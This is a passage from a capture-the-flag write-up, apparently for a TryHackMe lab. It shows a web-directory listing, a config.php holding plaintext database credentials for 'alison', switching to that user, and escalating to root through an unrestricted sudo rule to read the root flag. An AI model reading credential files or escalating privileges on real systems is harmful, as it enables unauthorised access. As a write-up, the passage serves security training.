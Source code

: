   ```
  /var/www/html/poster/assets/webfonts/fa-solid-900.svg
  /var/www/html/poster/assets/webfonts/fa-regular-400.svg
  /var/www/html/poster/assets/webfonts/fa-regular-400.woff
  /var/www/html/poster/assets/js/main.js
  /var/www/html/poster/index.html
  /var/www/html/poster/images/bg02.jpg
  /var/www/html/poster/images/bg01.jpg
  /var/www/html/poster/images/bg03.jpg
  ```
  
- Out all od these, the one that looks promising is `config.php`, so I checked it and BINGO, found `alison` credentials there.

  ```
  dark@ubuntu:/home$ cat /var/www/html/config.php
  <?php 
  
          $dbhost = "127.0.0.1";
          $dbuname = "alison";
          $dbpass = "p4ssw0rdS3cur3!#";
          $dbname = "mysudopassword";
  ```

- That took a while not gonna lie, but that's hacking tho. Now switch to `alison` and read the first flag.

  ```
  dark@ubuntu:/home$ su alison
  Password: 
  alison@ubuntu:/home$ cat /home/alison/user.txt
  THM{postgresql_fa1l_conf1gurat1on}
  ```

- Let's get root as well.

---

## 👑 Root Privilege Escalation

- OK, this is literal privilege escalation tutorial, just run `sudo -l` and you'll see what I'm talking about.

  ```
  alison@ubuntu:/home$ sudo -l
  [sudo] password for alison: 
  Matching Defaults entries for alison on ubuntu:
      env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
  
  User alison may run the following commands on ubuntu:
      (ALL : ALL) ALL
  
  alison@ubuntu:/home$ sudo cat /root/root.txt
  THM{c0ngrats_for_read_the_f1le_w1th_credent1als}
  ```
  